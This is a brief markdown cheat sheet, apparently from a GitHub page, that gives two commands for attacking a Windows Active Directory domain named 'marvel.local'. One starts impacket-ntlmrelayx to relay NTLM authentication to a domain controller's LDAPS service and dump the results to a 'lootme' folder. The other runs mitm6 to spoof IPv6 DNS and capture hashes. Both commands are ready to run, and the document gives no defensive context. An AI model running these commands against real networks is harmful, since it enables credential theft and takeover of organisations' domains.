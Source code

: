 
# Start a relay
```bash
impacket-ntlmrelayx -6 -t ldaps://<dc-ip> -wh whatever.marvel.local -l lootme
```

-----------------------

# Start mitm6 tool and loot hashes
https://github.com/dirkjanm/mitm6
```bash
sudo mitm6 -d marvel.local
```

-----------------------
